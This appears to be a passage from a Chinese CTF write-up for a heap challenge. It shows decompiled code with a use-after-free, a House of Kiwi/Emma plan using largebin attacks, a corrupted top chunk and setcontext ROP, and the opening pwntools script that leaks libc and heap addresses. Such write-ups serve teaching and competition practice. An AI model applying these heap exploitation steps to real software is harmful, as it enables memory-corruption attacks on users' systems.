 ```plain
void __fastcall sub_1536(__int64 a1)
{
  unsigned __int8 v1; // [rsp+1Fh] [rbp-1h]

  v1 = *(a1 + 1);
  if ( v1 > 0x10u || !qword_4040[v1] )
  {
    puts("Invalid idx");
    _exit(0);
  }
  free(qword_4040[v1]);
}
```

### 分析利用

申请的堆块在 0x410 到 0x500 之间，delete 中有 UAF 漏洞

主函数的循环无法退出，也就是无法从主函数返回，所以我们要利用 House of kiwi 的思想来触发 IO

具体思路如下

1.  使用 largeBin Attack 来在 stderr 指针处写一个可控地址
2.  使用 largeBin Attack 在\_\_pointer\_chk\_guard 处写一个已知地址
3.  通过写入的已知地址与需要调用的函数指针进行构造加密，同时构造出合理的 IO\_FILE 结构
4.  利用 Unsorted Bin 会与 Top Chunk 合并的机制来修改 Top Chunk 的 Size，触发 malloc\_assert
5.  进入 House\_OF\_Emma 的调用链，同时寻找一个能够转移 rdi 到 rdx 的 gadget，利用这个 gadget 来为 Setcontext 提供内容
6.  利用 Setcontext 来执行 ROP 来 ORW

### 解题过程

```plain
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))
```

首先拿到 libc 基址和堆地址
